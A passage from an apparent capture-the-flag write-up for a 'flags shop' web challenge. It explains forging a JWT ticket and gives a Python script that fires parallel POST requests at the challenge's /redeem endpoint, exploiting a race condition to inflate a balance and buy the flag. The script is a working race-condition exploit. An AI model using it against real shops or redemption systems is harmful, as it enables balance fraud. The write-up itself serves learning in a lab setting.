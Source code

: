    &nbsp;&nbsp;&nbsp;Now after finding the regex we make a jwt with that regex and make a script to send parallel requests using multiprocessing to make our balance bigger than the flag price. 
   
   here is the script:
   ```python
   import requests
from multiprocessing import Process

if __name__ == '__main__':
    # Define the URL to send the POST request to
    url = 'https://vrlmcgzdzytq6fy-flags-shop.insts.bsides.shellmates.club/redeem'

    tok="your token"
    # Define the cookies to send with the request
    cookies = {'token': tok}
    payload="aaaaaaaaaaaaaaaaaaaaaa!"
    # Define the data to send in the request body
    data = {'ticket': payload}
    # Send POST requests in parallel using multiprocessing
    processlist = []
    for _ in range(0, 6):
        process = Process(target=requests.post, kwargs={"url":url,"cookies":cookies ,"data":data})
        processlist.append(process)

    for process in processlist:
        process.start()

    for process in processlist:
        process.join()
```
   &nbsp;&nbsp;&nbsp;Edit your token cookie with the jwt that you have, now you can buy the real flag!
   
